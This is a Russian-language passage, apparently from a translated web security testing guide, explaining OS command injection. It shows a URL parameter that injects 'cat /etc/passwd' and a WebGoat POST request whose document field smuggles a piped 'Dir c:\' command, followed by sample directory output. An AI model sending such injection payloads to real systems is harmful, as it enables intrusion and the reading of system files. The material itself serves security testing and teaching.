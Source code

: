 `http://sensitive/something.php?dir=%3Bcat%20/etc/passwd`

### Пример

Рассмотрим случай приложения, содержащего набор документов, которые вы можете просматривать в Интернете. Если вы запустите HTTP-прокси (например, ZAP или Burp Suite), то сможете увидеть POST-запрос, показанный ниже. (`http://www.example.com/public/doc`):

```http
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```

В этом запросе мы замечаем, как приложение извлекает общедоступный документ Doc1.pdf. Теперь мы можем проверить, можно ли добавить команду операционной системы для инъекции в POST-запрос. Попробуйте следующее (`http://www.example.com/public/doc`):

```http
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

Если приложение не проверяет запрос, мы можем получить следующий результат:

```txt
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
```